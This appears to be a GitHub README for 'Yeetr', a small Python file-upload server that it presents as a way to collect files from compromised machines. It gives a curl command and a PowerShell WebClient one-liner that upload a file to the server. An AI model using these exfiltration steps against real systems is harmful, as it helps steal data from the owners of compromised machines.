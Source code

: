 # Yeetr - yeet your files

This server accepts and stores files sent through HTTP POST requests, ideal for operations requiring file uploads from compromised machines or remote systems. It's lightweight, easy to deploy, and listens on a customizable port.

## Requirements

- Python 3.x

## Usage

Start the server by specifying the desired port as an argument. If no port is specified, it defaults to 8000.

```
python SimpleExfil.py 8000
```

To upload a file, use `curl` from the command line, PowerShell, or any suitable HTTP client. Example for uploading `example.txt`:

```
curl -F "file=@example.txt" http://127.0.0.1:8000
```
Note that this only works with actual `curl`, so this command might not work in PowerShell.

To upload a file using PowerShell you can use the following (may not be very reliable):
```
(New-Object System.Net.WebClient).UploadFile("http://127.0.0.1:8000", "C:\tmp\example.txt")
```

Server can also be accessed on the browser for a classic upload UI.
